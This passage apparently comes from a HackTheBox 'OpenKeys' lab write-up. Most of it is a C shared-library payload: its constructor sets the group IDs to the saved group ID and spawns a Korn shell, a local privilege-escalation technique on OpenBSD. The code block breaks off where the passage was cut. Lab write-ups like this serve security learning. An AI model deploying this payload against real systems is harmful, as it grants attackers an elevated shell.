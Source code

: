 ![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-openkeys/Untitled%2013.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-openkeys/Untitled%2013.png)

Copied the C payload:

```c
#include <paths.h>
#include <sys/types.h>
#include <unistd.h>

static void __attribute__ ((constructor)) _init (void) {
    gid_t rgid, egid, sgid;
    if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
    if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);

    char * const argv[] = { _PATH_KSHELL, NULL };
    execve(argv[0], argv, NULL);
    _exit(__LINE__);
```